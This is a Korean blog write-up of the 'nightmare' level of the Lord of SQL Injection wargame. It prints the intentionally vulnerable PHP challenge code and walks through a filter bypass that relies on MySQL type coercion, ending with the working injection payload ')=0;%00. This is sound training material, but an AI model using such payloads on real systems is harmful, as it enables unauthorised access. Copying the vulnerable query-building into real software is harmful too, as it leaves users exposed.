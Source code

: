 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - nightmare 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `nightmare`이다.  

문제 이름 답게 엄청 고민 많이 했던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id from prob_nightmare where pw=('') and id!='admin'
------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

이번에는 주석으로 사용했던 문자들이 다 필터링이 걸려 있다.  

그리고 글자 수도 6글자 이내로 적어야 한다는 제한도 있다.  

그럼 일단 주석에 대한 필터링도 우회해야 하고, `pw`에 `('')` 이런식으로 괄호가 생겨서 이 것도 어떻게 해결해야 할지 고민해야 했다.  

결론적으로 이건 문제를 못풀겠어서 인터넷을 찾아봤었다.  

쿼리를 작성할 때, `pw=1=1` 형태로도 쓸 수 있다.  

이럴 경우, `1=1`은 참이기 때문에 `pw=참`이 되어 쿼리가 정상적으로 실행된다.  

이미 쿼리에 `('')` 은 있으므로, 이 공백과 비교했을 때 참이될 수 있는 값은 `0`이다.  

이를 실제로 테스트 해 보기 위해 아래와 같이 `mysql`을 실행시켜보았다.  

```
mysql> select ''=0 ;
+------+
| ''=0 |
+------+
|    1 |
+------+
1 row in set (0.01 sec)

```

결과값이 1이 나오는 것을 알 수 있다.  

그래서 `')=0`을 넣고, 뒤의 나머지 조건을 무시하게 하기 위해서 `;`과 `null`을 넣어주었다.  

```
?pw=')=0;%00
```

그랬더니 문제를 풀 수 있었다.  

```php
------------------------------------------------------------------------------------------------
query : select id from prob_nightmare where pw=('')=0;') and id!='admin'
------------------------------------------------------------------------------------------------

NIGHTMARE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

`NIGHTMARE Clear!!`
